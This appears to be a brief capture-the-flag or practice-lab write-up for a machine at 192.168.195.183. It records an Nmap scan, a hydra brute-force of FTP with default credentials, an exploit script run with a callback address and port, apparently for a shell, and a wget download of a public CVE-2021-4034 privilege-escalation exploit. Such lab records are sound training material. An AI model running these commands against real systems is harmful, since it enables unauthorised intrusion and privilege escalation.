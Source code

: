 #Pwned! 
```
192.168.195.183
```

## Nmap
```
PORT   STATE  SERVICE  REASON         VERSION
20/tcp closed ftp-data reset ttl 61
21/tcp open   ftp      syn-ack ttl 61 vsftpd 3.0.3
80/tcp open   http     syn-ack ttl 61 Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
Service Info: Host: 127.0.0.1; OS: Unix
```


## Nmap UDP


# Enumeration
## FTP
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 21 ftp://192.168.195.183
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930094809.png?raw=true)
```
passive
mget backup
```

## HTTP

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930091619.png?raw=true)

strings backup
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930095445.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930100544.png?raw=true)
```
python3 50911.py -s 192.168.45.239 443
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102513.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102534.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102436.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930102630.png?raw=true)

# PrivEsc

## Manual



## Automated

### Peass

```
https://medium.com/@0xrave/exghost-proving-ground-practice-walkthrough-0b50df883a65
```
```
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/refs/heads/main/CVE-2021-4034.py -O exploit-kernel.py
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240930104718.png?raw=true)

### Mimikatz


